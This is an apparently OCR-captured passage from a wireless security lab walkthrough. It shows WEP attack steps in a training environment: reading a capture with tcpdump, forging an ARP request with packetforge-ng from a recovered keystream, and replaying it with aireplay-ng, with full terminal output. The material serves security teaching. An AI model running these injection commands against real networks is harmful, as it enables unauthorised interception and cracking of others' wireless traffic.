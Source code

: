 Code: shell

```shell
tcpdump -s 0 -n -e -r replay_dec-1127-071138.cap
```

```
wifi@WiFiIntro:~$ tcpdump -s 0 -n -e -r replay_dec-1127-071138.cap

reading from file replay_dec-1127-071138.cap, link-type IEEE802_11 (802.11), snapshot length 65535
07:11:38.135585 BSSID:d8:d6:3d:eb:29:d5 SA:da:f5:d5:63:bb:e1 DA:d8:d6:3d:eb:29:d5 LLC, dsap SNAP (0xaa) Individual, ssap SNAP (0xaa) Command, ctrl 0x03: oui Ethernet (0x000000), ethertype IPv4 (0x0800), length 60: 192.168.1.75.42412 > 192.168.1.1.443: Flags [S], seq 529474759, win 64240, options [mss 1460,sackOK,TS val 1030732529 ecr 0,nop,wscale 7], length 0
```

Next, they will use `packetforge-ng` to forge an ARP request using the previously obtained MAC addresses of the access point (`-a`) and the client (`-h`), alongside the IPs of the access point (`192.168.1.1`) and the client (`192.168.1.75`), respectively, and save the forged ARP request into a file:

Code: shell

```shell
packetforge-ng -0 -a D8:D6:3D:EB:29:D5 -h DA:F5:D5:63:BB:E1 -k 192.168.1.1 -l 192.168.1.75 -y replay_dec-1127-071138.xor -w student-forgedarp.cap
```

```
wifi@WiFiIntro:~$ packetforge-ng -0 -a D8:D6:3D:EB:29:D5 -h DA:F5:D5:63:BB:E1 -k 192.168.1.1 -l 192.168.1.75 -y replay_dec-1127-071138.xor -w student-forgedarp.cap

Wrote packet to: student-forgedarp.cap
```

Students will use `aireplay-ng` in packet replay mode, specifying the forged ARP packet and the MAC address of the client connected to the access point:

Code: shell

```shell
sudo aireplay-ng -2 -r student-forgedarp.cap -h DA:F5:D5:63:BB:E1 wlan0mon
y
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -2 -r student-forgedarp.cap -h DA:F5:D5:63:BB:E1 wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether DA:F5:D5:63:BB:E1

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  D8:D6:3D:EB:29:D5
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  DA:F5:D5:63:BB:E1

        0x0000:  0841 0201 d8d6 3deb 29d5 daf5 d563 bbe1  .A....=.)....c..
        0x0010:  ffff ffff ffff 8001 d148 1d00 4ae4 569e  .........H..J.V.
        0x0020:  6108 ecb0 174d 9142 bd16 d695 7508 8653  a....M.B....u..S
        0x0030:  ac70 ea83 ea7d d5c7 66b0 df7f 7fe7 c5f9  .p...}..f.....
        0x0040:  ce4e 090b                                .N..

Use this packet ? y

Saving chosen packet in replay_src-1127-071825.cap
You should also start airodump-ng to capture replies.

Sent 150239 packets... (500 pps)
```

